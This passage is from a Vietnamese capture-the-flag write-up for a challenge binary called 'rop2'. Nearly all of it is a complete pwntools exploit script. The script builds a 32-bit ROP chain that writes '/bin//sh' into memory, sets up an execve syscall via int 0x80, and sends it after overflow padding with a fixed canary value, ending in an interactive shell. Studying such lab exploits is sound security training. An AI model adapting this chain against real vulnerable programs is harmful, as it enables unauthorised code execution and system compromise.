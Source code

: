  Như thế chúng ta đã có được 1 gadget rồi.
 
 Gom 7749 thông tin phân tích được ở trên kia lại thành cái file exploit này nè :D 

```
from pwn import *
from struct import pack


BIN = "./rop2"
 
###ROP  --binary ./rop2 --rop --badbytes "0a"
p = b''

p += pack('<I', 0x0806ee6b) # pop edx ; ret
p += pack('<I', 0x080da060) # @ .data
p += pack('<I', 0x08056334) # pop eax ; pop edx ; pop ebx ; ret
p += b'/bin'
p += pack('<I', 0x080da060) # padding without overwrite edx
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x08056e65) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806ee6b) # pop edx ; ret
p += pack('<I', 0x080da064) # @ .data + 4
p += pack('<I', 0x08056334) # pop eax ; pop edx ; pop ebx ; ret
p += b'//sh'
p += pack('<I', 0x080da064) # padding without overwrite edx
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x08056e65) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806ee6b) # pop edx ; ret
p += pack('<I', 0x080da068) # @ .data + 8
p += pack('<I', 0x08056420) # xor eax, eax ; ret
p += pack('<I', 0x08056e65) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080481c9) # pop ebx ; ret
p += pack('<I', 0x080da060) # @ .data
p += pack('<I', 0x0806ee92) # pop ecx ; pop ebx ; ret
p += pack('<I', 0x080da068) # @ .data + 8
p += pack('<I', 0x080da060) # padding without overwrite ebx
p += pack('<I', 0x0806ee6b) # pop edx ; ret
p += pack('<I', 0x080da068) # @ .data + 8
p += pack('<I', 0x08056420) # xor eax, eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x08049563) # int 0x80
canary = 0x080da000
save_base_pointer = 0xffffd008
def exploit():
	payload = b"a"*20 + p32(canary) + p32(save_base_pointer) + p 
#	__breakpoint="""
#		b*0x080488d0
#		"""
#	gdb.attach(io,__breakpoint)
	io.recvuntil("Can you ROP your way out of this one?")
	io.sendline(payload)
	io.interactive()


```